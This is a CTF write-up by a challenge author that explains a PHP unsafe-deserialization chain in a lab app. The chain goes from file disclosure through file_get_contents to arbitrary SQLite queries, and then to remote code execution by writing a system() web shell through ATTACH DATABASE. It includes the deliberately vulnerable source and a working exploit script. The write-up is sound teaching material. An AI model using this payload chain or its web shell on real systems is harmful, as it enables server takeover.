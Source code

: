 ```yaml
---
title: Pretty Hyper Phrog (Cyberleague Quarterfinals 2022)
date: 23 Dec 2022
---
```


Recently, I set 2 web challenges for [Cyberleague 2022](https://cyberleague.co/).
There was quite a bit of positive feedback about the challenge Pretty Hyper
Phrog. So I'll be writing a writeup for it, as well as releasing the source. :)

---

Here is the source: <https://anonfiles.com/r0c0UbN8ya/php_zip>

The main vulnerability at play is unsafe deserialization. In PHP, this allows
for arbitrary properties to be assigned to objects. In addition, the class of
the object can also be controlled. With these interesting capabilities of unsafe
deserialization, I made a 2-phase challenge that will require one to leverage
both concepts + some other exotic concepts to ultimately get RCE.

---

### Phase 1: LFI

Since the source wasn't provided in the CTF, our first goal is to get some sort
of LFI to get the complete source. 


Here's a sample "password", our attack vector:

```base64
Tzo0OiJVc2VyIjozOntzOjc6InBpY3R1cmUiO3M6MTY6InN0YXRpYy9waHJvZy5naWYiO3M6ODoidXN lcm5hbWUiO3M6ODoic2FtdXpvcmEiO3M6NDoidXVpZCI7czoxMzoiNjNhNDYyNTViNGM5YiI7fQ==
```

We know that each user's password is a PHP serialized object, and there is a
property `picture` that is pointing to `static/phrog.gif`. After some
experimenting we see that this is passed to `file_get_contents`, which we can
use to enumerate the source.

---

### Phase 2: RCE

We not only want LFI, we want RCE! With big and well-known frameworks, PHP
deserialization is a piece of cake, as there are ready-made RCE gadget chains
online. However, this is a custom implementation so it doesn't exist. We need to
make it ourselves :(

Some of the leaked files:

index.php
```php
<?php
require("user.php");
require("util.php");

$conn = new Conn;

if (array_key_exists("password", $_COOKIE) === false) {
    echo file_get_contents("static/index.html");
    die();
}
$temp = unserialize(base64_decode($_COOKIE["password"]));
$conn->query = "select username, uuid from users where uuid = :uuid";
$conn->params = array(":uuid" => $temp->uuid);
$result = $conn->query();
if ($result) {
    $user = $temp;
} else {
    header("Location: /login.php");
}
?>

<!DOCTYPE html>
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.bundle.min.js" integrity="sha384-MrcW6ZMFYlzcLA8Nl+NtUVF0sA7MsXsP1UyJoMp4YLEuNSfAP+JcXn/tWtIaxVXM" crossorigin="anonymous"></script>
</head>
<body>
    <div class="container mt-5 px-auto">
        <div class="row">
            <div class="col">
                 <?php echo $user->whoami(); ?>
            </div>
            <div class="col">
                <p>I hope u like phrogs</p>
            </div>
        </div>
    </div>
</body>
```

user.php
```php
<?php
class User {
    public $picture;
    public $username;
    public $uuid;

    public function __construct(string $username, string $uuid) {
        $this->username = $username;
        $this->picture = "static/phrog.gif";
        $this->uuid = $uuid;
    }
    
    public function whoami() {
        $picture = base64_encode(file_get_contents($this->picture));
        return "
            <div class='card' style='width: 50%'>
                <img class='card-img-top' src='data:image/gif;base64,{$picture}' class='rounded' alt='phrog'>
                <div class='card-body'>
                    <h5 class='card-title'>User: {$this->username}</h5>
                    <p>uuid: {$this->uuid}</p>
                </div>
            </div>
        ";
    }
}
?>
```

util.php
```php
<?php
class Conn {
    public $query;
    public $params;

    public function __call(string $name, array $arguments) {
        $conn = new SQLite3("/sqlite3/db");
        $query = $this->query;
        foreach ($this->params as $key=>$value) {
            $value = $conn->escapeString($value);
            $query = str_replace($key, "'$value'", $query);
        }

        // in case we ever need to execute multiple queries
        $queries = explode("; ", $query);
        foreach ($queries as $temp) {
            $result = $conn->query($temp);
        }
        if ($result !== false) {
            if ($result->numColumns()) {
                return $result->fetchArray();
            } else {
                return true;
            }
        } else {
            return $result;
        }
    }
}
?>
```

Some things to note:

1. In `Conn`, the query is being prepared manually. This could maybe give us
   SQLi, if we manage to bypass the (not so stringent) checks. Props to RVCTF
   who found an unintended solution via the weak escaping. (The reason why I had
   to implement my own query, is because we need multiple queries for the
   exploit - and I couldn't find a driver that could allow me to do that. So I
   exploded based on `; ` and ran each query manually.)
2. In `Conn`, `__call` is being used to invoke the query function. [This magic
   method](https://www.phptutorial.net/php-oop/php-__call/) defines a fallback
   for undefined properties that are invoked.

As you might guess based on the context of the challenge, we can change `$temp`
(and hence `$user`) into a `$Conn` object. This would allow us to control the
`$query` array in our poisoned object and execute our own queries via the
`->whoami()` call (since it doesn't exist on a `$Conn`, it will fallback to
`__call()`). While we do this, we also need to ensure that `->username`
and `->uuid` remains constant so we pass the check.

With this we can execute arbitrary SQL (should I call this SQLi?). But how to
get RCE?

SQLite uses a single-file database locally, instead of connecting to a remote
service. And we can attach new databases to arbitrary locations, which creates a
file with some binary content, as well as whatever we insert into the new
database. 

So in a fashion similar to JPEG web shells, we can create a malicious SQLite
database in `/var/www/html`, create a table and insert a row with our standard
PHP web shell, thus gaining RCE!

---

Below is the exploit code:

```php
<?php
class Conn {
    public $username = 'samuzora';
    public $uuid = '63a46255b4c9b';
    public $query = "attach database './63a46255b4c9b.php' as test; create table test.a (payload text); insert into test.a values ('<?php system(\$_GET[\"cmd\"]) ?>')";
    public $params = array();
}
echo base64_encode(serialize(new Conn));
?>
```

Be careful with the quotes - I prefer to err on the side of PHP, since I can
actually see the error occur. So I chose to escape PHP's quotes instead of SQL's
quotes.

From making this challenge, I learnt a lot about how PHP objects work
internally. For example, you can't just inject/override functional properties
since functions aren't serialized. Also, your injected object must be a
pre-existing object defined in the code, unlike Python's unpickle which accepts
arbitrary objects. 

Hope you liked this challenge!

References:

1. <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md>
